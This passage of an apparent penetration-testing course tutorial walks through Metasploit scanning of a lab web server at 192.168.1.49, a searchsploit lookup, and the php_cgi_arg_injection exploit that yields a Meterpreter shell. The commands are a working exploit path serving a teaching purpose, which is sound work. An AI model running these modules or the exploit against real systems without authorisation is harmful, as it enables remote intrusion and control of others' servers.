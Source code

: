 ```bash
use auxiliary/scanner/http/files_dir

show options

set RHOST 192.168.1.49

run
```

![Run RHOST](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-rhost.png?raw=true)

Again, these results could make a difference and we should take a look at them. Another module of interest id `options`, `robots_txt`, and `verb_auth_bypass`:

```bash
use auxiliary/scanner/http/verb_auth_bypass


show options

set RHOST 192.168.1.49

run
```

![Run proxies](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-proxies.png?raw=true)

> And many more modules that I invite you to try.

Let's make use of the information we collect.
Let's search in Apache exploitDB with the PHP version:

```bash
$ searchsploit apache | grep 5.4.2
```

![Apache1](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/apache1.png?raw=true)

Remote execution of CGI code was found. Let's exploit it:

```bash
use exploit/multi/http/php_cgi_arg_injection*

set RHOST 192.168.1.49

run
```

![Run Exploit](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/run-exploit.png?raw=true)

We have a shell meterpreter!!!! Happy hacking!!!!

Port 80 is a good source of information and exploits, like any other port. We will come back to this port for installed web applications. In this article, we obtained information about running services and found an exploit that provided us with a shell.
